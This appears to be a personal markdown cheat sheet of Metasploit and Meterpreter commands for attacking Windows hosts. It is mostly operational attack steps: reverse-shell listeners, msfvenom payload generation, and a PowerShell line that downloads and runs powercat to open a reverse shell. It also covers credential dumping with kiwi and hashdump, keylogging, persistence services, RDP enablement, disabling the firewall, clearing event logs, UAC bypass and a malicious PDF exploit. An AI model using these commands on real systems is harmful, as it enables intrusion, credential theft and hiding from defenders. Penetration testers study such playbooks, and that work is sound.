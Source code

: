 

# Mestaploit Stager Step by Step

## 1/ MSF Listen tcp handler

msfconsole
use multi/handler
options
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 6969
run -j

jobs
echo Trigger reverse shell on victim

sessions

## 2/ Meterpreter Survive

migrate -N gvim.exe
sessions -u 1

## 3/ Meterpreter Loot

sysinfo
getuid
getpid
ps
run post/windows/gather/win_privs
route
run post/windows/gather/enum_logged_on_users

echo "Same as getprivs"

## 4/ Meterpreter Persist

search platform:windows persist


```ps1
IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/rexpository/powercat-v2.0/main/powercat.ps1');
powerrcatt -c 192.168.56.1 -p 6969 -e powershell
```

set payload windows/shell_reverse_tcp


## 5/ Meterpreter Inject reflective dll (Payload)

use windows/manage/reflective_dll_inject
options
set PROCESS notepad.exe
set PATH ~/Software/C/DreamStager/archive/reflective_dll_stephenfewer.x64.dll
set PATH ~/Software/C/DreamStager/archive/reflective_dll_dreamlab.x64.dll
set session 4
run

## 7/ Meterpreter Search escalation (winpeas)

get_system
run post/multi/recon/local_exploit_suggester

upload ~/Iso/Pentest/winPEAS_dotfuscated.exe C:/Users/User/Downloads
shell
C:/Users/User/Downloads/winPEAS_dotfuscated.exe -h

search platform:windows adduser

## 8/ Meterpreter Loot System

load kiwi
help kiwi
kiwi_cmd version
creds_all

hashdump
run post/windows/gather/hashdump
run post/windows/gather/credentials/sso   

## 9/ Meterpreter Persist System


use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set session 2
exploit


use post/windows/manage/enable_rdp
options
set username user2
set password password
set session 2
run

echo call remmina app


# Enhanced metasploit: Generate payloads

## 1/ MSF Generate exploit stage1 PDF

reload ~/.msf4/modules/exploits/windows/adobe_reader_reset_form_rce.rb
use exploit/windows/adobe_reader_reset_form_rce
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 6969
run


## 2/ MSF Generate payload from C local

reload ~/.msf4/modules/payloads/singles/windows/dll_messagebox.rb
use payload/windows/dll_messagebox
options
generate


# Resource Mfsvenom


msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=192.168.56.1 LPORT=6969 > metasploit_https.exe

use multi/handler
set PAYLOAD windows/meterpreter/reverse_https

# Resource Meterpreter

Ref: https://www.scaler.com/topics/cyber-security/meterpreter-command-cheatsheet/
Load: https://docs.metasploit.com/docs/using-metasploit/intermediate/how-to-use-plugins.html

load -l

### Meterpreter survive

ps -U User
migrate -N Explorer.exe

1. svchost.exe
2. RuntimeBroker.exe
3. dllhost.exe

1. Explorer.exe
2. OneDrive.exe
3. msedge.exe


execute -H -k -f cmd -a "/c netsh firewall set opmode mode=disable"

### NX

bcdedit.exe /set (current) nx AlwaysOff.
or error 0xc0000005

### Meterpreter hide

clearev

### Meterpreter elevate

getsystem
psexec -i -s cmd.exe

use exploit/windows/local/bypassuac

### Meterpreter persist

echo "This is detected"
use exploit/windows/local/registry_persistence 
set payload windows/meterpreter/reverse_https


### Meterpreter Script

irb  # for Interactive Ruby Shell

sys
p = sys.process.execute('calc.exe')

### Meterpreter Loot

keyscan_start
keyscan_dump


#### Admin

> Change password
shell
net user User password2

# Resource Metasploit and Bash

msfconsole
py3 unicorn.py windows/meterpreter/reverse_https 192.168.1.56 6970

Ref: https://github.com/trustedsec/unicorn

### Command line

vim ~/.msf4/logs/framework.log

### Msf IRB Dump

Msf::Ui::Console::CommandDispatcher::
dl = Msf::Ui::Console::CommandDispatcher::Dreamlab.new
Metasm::WindowsExports::EXPORT

### Msfconsole base

?
help
loadpath ~/.msf4/modules/
reload ~/.msf4/modules/payloads/stages/windows/bin_meterpreter_1000.rb


### Command line

/usr/bin/msfconsole
/opt/metasploit-framework/embedded/framework/msfconsole
/opt/metasploit-framework/embedded/framework/lib/metasploit/framework/command/console.rb
/opt/metasploit-framework/embedded/framework/lib/msf/ui/console/driver.rb
  <= Register the commands
/opt/metasploit-framework/embedded/framework/lib/msf/ui/console/command_dispatcher/jobs.rb

* [file: block_reverse_tcp.asm](file:/opt/metasploit-framework/embedded/framework/external/source/shellcode/windows/x64/src/block/block_reverse_tcp.asm)
* [file: block_api.asm](file:/opt/metasploit-framework/embedded/framework/external/source/shellcode/windows/x64/src/block/block_api.asm)
* [file: stager_reverse_tcp.asm](file:/opt/metasploit-framework/embedded/framework/external/source/shellcode/windows/x64/src/stager/stager_reverse_tcp_nx.asm)

lib/msf_autoload.rb
[lib msf core payload windows x64 meterpreter_loader_x64 rb](./lib/msf/core/payload/windows/x64/meterpreter_loader_x64.rb.md)

modules/payloads/stages/windows/x64/meterpreter.rb

ls [opt metasploit framework embedded framework scripts meterpreter](/opt/metasploit-framework/embedded/framework/scripts/meterpreter.md)
msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=192.168.56.1 LPORT=6969 > metasploit_tcp.bin


set LHOST 192.168.56.1
set LPORT 6969
sessions -i 1
jobs -k 5
use 0
